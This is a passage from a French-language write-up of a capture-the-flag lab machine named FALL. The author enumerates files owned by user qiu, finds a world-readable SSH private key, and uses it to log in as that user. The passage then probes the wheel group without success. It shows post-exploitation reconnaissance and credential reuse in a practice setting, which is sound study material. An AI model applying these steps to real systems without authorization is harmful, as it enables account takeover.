 Sans doute une particularité du système `Fedora 28 (Server Edition)`. Il n'y a pas de groupe `sudo` sur la machine.

L'utilisateur a mis sa clé privée SSH en lecture pour tous :

```console
bash-4.4$ find / -user qiu -ls 2> /dev/null 
 50460117      0 -rw-rw----   1  qiu      mail            0 Aug 14  2019 /var/spool/mail/qiu
    27377      0 drwxr-xr-x   3  qiu      qiu           128 May 21  2021 /home/qiu
    27378      4 -rw-r--r--   1  qiu      qiu            18 Mar 15  2018 /home/qiu/.bash_logout
    27379      4 -rw-r--r--   1  qiu      qiu           193 Mar 15  2018 /home/qiu/.bash_profile
    27380      4 -rw-r--r--   1  qiu      qiu           231 Mar 15  2018 /home/qiu/.bashrc
    26322      4 -rw-r--r--   1  qiu      qiu            27 May 21  2021 /home/qiu/local.txt
   171666      0 drwxr-xr-x   2  qiu      qiu            61 May 21  2021 /home/qiu/.ssh
  1377102      4 -rwxrwxrwx   1  qiu      qiu          1831 May 21  2021 /home/qiu/.ssh/id_rsa
  1378060      4 -rwxrwxrwx   1  qiu      qiu           407 May 21  2021 /home/qiu/.ssh/id_rsa.pub
    72119      4 -rw-rw-r--   1  qiu      qiu            38 May 21  2021 /home/qiu/reminder
  1378059      4 -rw-------   1  qiu      qiu           292 Sep  5  2021 /home/qiu/.bash_history
```

On peut donc facilement se connecter sur son compte :

```console
bash-4.4$ cat /home/qiu/local.txt
A low privilege shell! :-)
bash-4.4$ cat /home/qiu/reminder
reminder: delete the SSH private key!
bash-4.4$ ssh -i .ssh/id_rsa qiu@127.0.0.1
Could not create directory '/usr/share/httpd/.ssh'.
The authenticity of host '127.0.0.1 (127.0.0.1)' can't be established.
ECDSA key fingerprint is SHA256:+P4Rs5s4ipya3/t+GBoy0WjQqL/LaExt9MFvWgld4xc.
Are you sure you want to continue connecting (yes/no)? yes
Failed to add the host to the list of known hosts (/usr/share/httpd/.ssh/known_hosts).
Web console: https://FALL:9090/

Last login: Sun Sep  5 19:28:51 2021
[qiu@FALL ~]$ id
uid=1000(qiu) gid=1000(qiu) groups=1000(qiu),10(wheel)
```

J'ai regardé s'il y avait quoi que ce soit à tirer de ce groupe `wheel` mais sans succès :

```console
[qiu@FALL ~]$ find / -group wheel 2>/dev/null 
/var/lib/cockpit
[qiu@FALL ~]$ ls -ald /var/lib/cockpit
drwxrwxr-x. 2 root wheel 6 Nov 28  2018 /var/lib/cockpit
[qiu@FALL ~]$ cd /var/lib/cockpit
[qiu@FALL cockpit]$ ls -al
total 4
drwxrwxr-x.  2 root wheel    6 Nov 28  2018 .
drwxr-xr-x. 53 root root  4096 Aug 15  2019 ..

```
